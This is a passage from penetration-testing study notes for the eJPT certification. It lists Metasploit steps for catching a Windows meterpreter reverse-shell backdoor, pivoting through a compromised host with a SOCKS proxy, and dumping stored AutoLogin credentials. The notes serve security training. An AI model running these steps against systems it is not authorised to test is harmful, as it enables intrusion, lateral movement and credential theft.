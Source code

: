 Use the backdoor:
  - `background`
  - `sessions -K`
  - `use exploit/multi/handler`
  - `set PAYLOAD windows/meterpreter/reverse_tcp`
  - `set LHOST <your-ip>`
  - `set LPORT 4444`
  - `exploit`

Note: The `<session-id>` is the one you can read when you type `background`  
Note: We need to use the same information about the backdoor to receive a new meterpreter session on the multi-handler. We can't change Payload, IP or Ports details.

#### Pivoting using a SOCKS Proxy
You have access to a compromised host and only from there you can access another machine. That machine exposes a web server, in order to access it from your computer set up a SOCKS proxy.

Add the route to the unreachable network using autoroute or route.

```bash
msf > use auxiliary/server/socks_proxy
msf > set VERSION 4a
msf > set SRVPORT 9050
msf > run -j
```

```bash
root@INE:~# proxychains nmap ...
```

Then you can also setup firefox in order to send request using the SOCKS proxy v4 at `127.0.0.1:9050`.

#### Dump AutoLogin stored credentials
Inside a meterpreter session:
  - `migrate -N explorer.exe`
  - `background`
  - `use post/windows/gather/credentials/windows_autologin`
  - `set SESSION <session-id>`
  - `exploit`

----------

If you find an error or want to improve this page, just [open an issue](https://github.com/edoardottt/eJPT-notes/issues).

**Don't** text/mail me looking for exam solutions.
